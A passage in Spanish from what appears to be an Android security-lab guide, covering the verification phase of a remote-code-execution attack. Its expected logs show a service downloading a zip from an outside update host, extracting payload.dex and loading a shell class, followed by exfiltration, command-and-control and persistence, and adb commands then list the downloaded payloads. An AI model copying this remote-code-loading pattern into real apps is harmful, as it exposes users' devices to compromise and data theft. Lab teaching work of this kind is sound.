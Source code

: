 
## ✅ **FASE 5: Verificación del Compromiso**

### **5.1 Logs de Ejecución Exitosa**

```bash
# Comando para monitorear el ataque
adb logcat | grep -i "RCEService\|CompromiseReceiver"

# Logs esperados (secuencia de ataque exitoso):
I RCEService: 🎯 Servicio automático iniciado
I RCEService: 📡 Verificaciones automáticas iniciadas (cada 15s)
I RCEService: 📡 Solicitando: http://updates.gameapp.com/assets/update.zip
I RCEService: 📥 Descarga exitosa: content_1234567890.zip
I RCEService: 📂 Extraído: payload.dex
W RCEService: ⚠️ Contenido ejecutable detectado: payload.dex
W RCEService: 🚨 EJECUTANDO PAYLOAD DINÁMICO
E RCE_PAYLOAD: 💀 SISTEMA COMPLETAMENTE COMPROMETIDO 💀
E RCEService: 💀 RCE EJECUTADA - Clase: pwn.Shell
E RCEService: 🔴 SISTEMA COMPROMETIDO
E CompromiseReceiver: 🚨 COMPROMISO DETECTADO - Fuente: BackgroundService - Hora: XX:XX:XX
W CompromiseReceiver: 💀 Iniciando actividades post-explotación...
W CompromiseReceiver: 📤 Exfiltrando datos sensibles
W CompromiseReceiver: 📡 Estableciendo comunicación C&C
W CompromiseReceiver: 🔒 Estableciendo persistencia
E CompromiseReceiver: ===== ANÁLISIS FORENSE =====
E CompromiseReceiver: Fuente: BackgroundService
E CompromiseReceiver: Timestamp: 1234567890
E CompromiseReceiver: PID: XXXX
E CompromiseReceiver: UID: XXXXX
E CompromiseReceiver: ============================
```

### **5.2 Verificar Interfaz de Usuario**

- Abrir la aplicación RCE Lab
- Estado debe mostrar: **"☠️ SISTEMA COMPROMETIDO"** (fondo rojo)
- Fuente: **"BackgroundService"**
- Logs mostrando actividad maliciosa

### **5.3 Verificar Archivos Comprometidos**

```bash
# Verificar payloads descargados
adb shell run-as com.app.lab.rce ls -la files/
# Debe mostrar: ad_bundle.zip y múltiples directorios temp_*

# Verificar archivos DEX extraídos
adb shell run-as com.app.lab.rce "find files/ -name '*.dex'"
# Debe mostrar múltiples archivos payload.dex
```

---
